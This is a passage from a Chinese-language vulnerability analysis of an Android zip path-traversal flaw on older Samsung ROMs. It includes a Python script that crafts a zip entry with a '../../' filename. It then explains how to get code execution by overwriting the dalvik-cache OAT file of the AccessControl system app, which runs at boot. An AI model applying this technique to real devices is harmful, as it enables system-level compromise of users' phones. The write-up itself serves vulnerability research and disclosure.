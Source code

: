 * * *

首先我们构造一个任意文件名的zip文件，用 python脚本很容易实现：

```
from zipfile import ZipFile 

with ZipFile("cred.zip", "w") as z:
    z.writestr("../../path/filename", open("file", "rb").read())

```

现在，怎么进行代码执行呢？当你有以系统用户身份写任意数据到任何地方的能力的时候，一个经典的做法就是覆盖dalvik-cache。安卓5.0 dalvikvm已经被ART runtime替代。和ODEX 文件一样，压缩包管理器通过调用dex2oat来生成 .apk 里面的OAT文件，并把文件以.dex为后缀写入到/data/dalvik-cache/目录。因此，最终我们依然可以通过这种方法进行代码执行。

不幸是（依据你自身的环境，也可能不是这种坏的情况），覆盖dalvik-cache来进行代码执行现在非常困难。对于现在的ROM，dalvik-cach目录的控制权掌握在root用户里，并且 SELinux[[6]](https://android-review.googlesource.com/#/c/155000/)[[7]](https://android-review.googlesource.com/#/c/127710/)对写权限有严格限制。

一些老的三星ROM，比如 G900FXXU1BNL9 或 G900FXXU1BOB7，并没有这些SELinux[[6]](https://android-review.googlesource.com/#/c/155000/)[[7]](https://android-review.googlesource.com/#/c/127710/)限制，这些设备漏洞是比较容易利用的。这设备的ROM里，虽然dalvik-cache的宿主是root，但是没有那些规则限制，不会阻止我们覆盖dalvik-cache。文章里我们将以这些ROM为例来进行漏洞分析，因为本文重点不是来分析如何通过覆盖dalvik-cache以外的方法来进行代码执行。

现在，我们有了一个可以被攻击的ROM，我们还需要找到一个目标应用（以系统用户身份运行），以便来改写它的OAT文件，同时我们还要精心构造我们自己的OAT文件。

找到一个好的安卓目标应用程序并非易事，我们必须在记住以下3点：

1.  解压例程是JAVA代码编写的，加压的时候是一字节一字节进行，对于大文件非常慢。
2.  覆盖正在运行的应用的OAT文件，可能会导致该应用崩溃，并且不会非常稳定 :)。
3.  你将如何通过该应用来进行代码执行？

实际上，我们需要找一个小的OAT文件，但想要安全的覆盖它几乎不可能。

这里比较完美的一个选择如下：

```
shell@klte:/ $ ls -al /data/dalvik-cache/arm/system@app@AccessControl@AccessControl.apk@classes.dex
-rw-r--r-- system   u0_a31000   176560 2015-10-30 15:40 system@app@AccessControl@AccessControl.apk@classes.dex

```

观察这个应用的manifest文件，发现它有自动运行的能力，它通过注册一个 BroadcastReceiver服务，监听android.intent.action.BOOT_COMPLETED事件来自动运行：

```
<manifest android:sharedUserId="android.uid.system" android:versionCode="1411172008" [...] xmlns:android="http://schemas.android.com/apk/res/android">
    <application android:debuggable="false" android:icon="@2130837507" android:label="@2131230720" android:supportsRtl="true" android:theme="@2131296256">
        [...]
        <receiver android:exported="false" android:name="com.samsung.android.app.accesscontrol.AccessControlReceiver">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED" />
                <action android:name="com.samsung.android.app.accesscontrol.TOGGLE_MODE" />
            </intent-filter>
        </receiver>
        [...]
    </application>
</manifest>

```
